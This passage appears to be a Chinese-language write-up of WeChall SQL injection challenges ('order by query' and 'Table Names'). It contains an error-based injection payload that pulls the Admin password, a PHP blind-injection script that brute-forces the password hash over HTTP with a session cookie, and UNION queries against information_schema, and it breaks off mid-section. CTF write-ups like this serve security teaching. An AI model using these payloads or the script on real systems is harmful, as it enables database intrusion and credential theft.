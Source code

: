 利用方式：

```
by=5 and (select 1 from(select count(*),concat((select password from users where username=0x41646d696e),0x3a,floor(rand(0)*2))x from information_schema.tables group by x)a) -- 
```

盲注脚本

```
<?php
$curl = curl_init();
curl_setopt($curl, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($curl, CURLOPT_HEADER, 0);
curl_setopt($curl, CURLOPT_COOKIE, 'WC4_SID=xxxxxxxxxxxxxxxxxxxxxxx');
$charset = 'ABCDEF0123456789';
$hash = '';
for($i=0;$i<32;$i++)
{
        $strona = '';
        $index=0;
        for($j=0;strpos($strona,'10</td><td>Admin') === false;$j++)
        {
                curl_setopt($curl, CURLOPT_URL, 'http://www.wechall.net/challenge/order_by_query/index.php?by=3,%20CASE%20username%20WHEN%200x41646d696e%20THEN%202-%28password%20REGEXP%200x5e'.$hash.dechex(ord($charset[$index++])).'%29%20ELSE%202%20END--');
                $strona = curl_exec ($curl);
        }
        $hash .= ''.dechex(ord($charset[--$index]));
}
curl_close($curl);
echo $hash;
?>

```

## Table Names

* * *

猜测表名和数据库名的题目，直接查询 information_schema 即可

漏洞代码：

没有给出源代码

利用方式：

得到表名

```
username=wyl' union select 1,2,table_name from information_schema.columns where column_name='username' limit 1,1 -- 
```

得到数据库名
